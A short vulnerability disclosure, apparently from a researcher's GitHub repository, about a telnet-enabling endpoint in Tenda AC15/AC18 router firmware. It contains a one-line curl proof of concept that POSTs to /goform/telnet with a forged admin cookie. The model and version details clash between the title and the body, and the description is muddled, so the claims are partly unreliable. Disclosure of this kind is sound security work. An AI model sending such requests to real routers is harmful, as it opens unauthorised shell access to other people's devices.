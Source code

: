 # TendaAC18v15.03.05.05telnet

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/102680

## Affected version

AC15v1.0 V15.03.05.19

## Vulnerability details

An issue was discovered in AC15v1.0 V15.03.05.19 devices. An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.

![image-20250117231252601](/IoT/img\image-20250117231252601.png)

## POC

```python
curl -i -X POST http://192.168.1.100/goform/telnet -d aa=aa --cookie "user=admin" --http0.9
```

![image-20250117231359310](/IoT/img\image-20250117231359310.png)

